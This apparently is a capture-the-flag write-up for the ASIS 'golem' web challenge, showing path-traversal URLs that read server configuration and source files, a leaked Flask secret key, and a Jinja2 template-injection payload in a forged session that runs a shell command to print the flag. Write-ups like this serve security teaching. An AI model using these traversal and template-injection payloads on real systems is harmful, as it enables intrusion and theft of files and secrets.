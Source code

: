 # golem

## LFI

`https://golem.asisctf.com/article?name=../../../../../../etc/nginx/sites-enabled/golem`

=>

    location /static/ {

        root /opt/serverPython/golem;
    
        expires 30d;
    
        add_header Pragma public;
    
        add_header Cache-Control &#34;public&#34;;

    }


`https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/server.py`

=>

    execfile('flag.py')
    execfile('key.py')

    FLAG = flag

    app.secret\_key = key

    ...


https://golem.asisctf.com/article?name=../../../../../opt/serverPython/golem/secret.py

=>

`secret key: 7h15_5h0uld_b3_r34lly_53cur3d`


## SSTI

use the secret key to let session['golem'] = `{{ config[\'RUNCMD\'](\'grep "ASIS" flag.py\',shell=True) }}`

=>

`ASIS{I_l0v3_SerV3r_S1d3_T3mplate_1nj3ct1on!!}`

